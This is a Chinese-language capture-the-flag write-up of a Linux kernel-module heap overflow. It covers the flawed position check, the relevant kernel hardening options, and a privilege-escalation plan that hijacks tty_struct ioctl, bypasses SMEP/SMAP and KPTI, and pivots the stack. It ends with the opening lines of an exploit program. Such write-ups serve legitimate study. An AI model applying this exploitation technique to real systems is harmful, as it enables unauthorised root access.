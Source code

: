 ```c

//fs/read_write.c#L566
static inline void file_pos_write(struct file *file, loff_t pos)
{
	if ((file->f_mode & FMODE_STREAM) == 0)
		file->f_pos = pos;
}
```

返回题目中的代码，可以发现：若第一次写入 0x3FF 大小数据 ，`fd->pos=0x3FF`，第二次写入时的 `fd->pos`值还是 0x3FF ，通过验证，而堆块大小为0x400，造成了堆溢出。可以通过 `mod_read()` ， `mod_write()` 实现越界读写。

> 在搭建环境时发现，若内核在编译前加上 `CONFIG_HARDENED_USERCOPY=y` ，则会在  `copy_from_user, copy_to_user` 前加上 `check_object_size(from, n, true);` 这样一个检查，作用是验证地址有效性、检查是否有堆栈或SLAB的越界读写。即使出现题目中的堆溢出，也只能造成crash，无法利用。
> 编译前加上 CONFIG_SLAB_FREELIST_HARDENED=y，free_list中指针会以 ptr ^ s->random ^ ptr_addr 这种方式进行混淆，从而导致无法泄露堆地址；但该保护措施有缺陷可以绕过，详见参考[4]。

## 方法一

### 利用思路

起初的思路是堆溢出修改 `tty_struct` 劫持 `ioctl` 指针，覆写cr4 关闭 SMEP、SMAP后，进行栈迁移直接ret2usr。但在编写 ROP chain 时发现当调用用户态代码的时候内核会报如下错误 ：`BUG: unable to handle kernel paging request at 0000000000400eaa`。关闭 KPTI 后，exp能成功执行。印象中的 KPTI 将用户空间页表与内核空间页表进行了隔离，但最终目的是为了防止用户空间获取内核数据。查看官方文档后（参考[5]），发现下面一段话：
> Another potential vulnerability comes about if the kernel can ever be manipulated into returning to user space without switching back to the sanitized PGD. Since the kernel-space PGD also maps user-space memory, such an omission could go unnoticed for some time. The response here is to map the user-space portion of the virtual address space as non-executable in the kernel PGD. Should user space ever start running with the wrong page tables, it will immediately crash as a result.

即在KPTI中，所有用户空间页面都以 NX （不可执行）映射到内核页面表中。 实现了与SMEP非常相似的功能。

虽然限制了不能执行用户空间的代码，但仍然可以将内核栈迁移到用户空间中 。这里只是为了获取 flag 的值，可以不用获得一个交互shell，只需将 flag 权限修改为 777 ，之后让程序 sleep 0x1000000 秒 ，这样做的好处是，就算程序在退出前崩溃也可以在 sleep 的时间内去获取 flag 值。:)

### exp

```c
#include <stdio.h>
#include <stdarg.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <sched.h>
#include <errno.h>
#include <pty.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/sem.h>


#define KERNELCALL __attribute__ ((regparm(3)))
void (* commit_creds)(void *) KERNELCALL;
size_t* (* prepare_kernel_cred)(void *) KERNELCALL;
size_t commit_creds_addr=0,prepare_kernel_cred_addr=0;

struct skewBuf{
	unsigned char padding;
	unsigned long vec[127];
```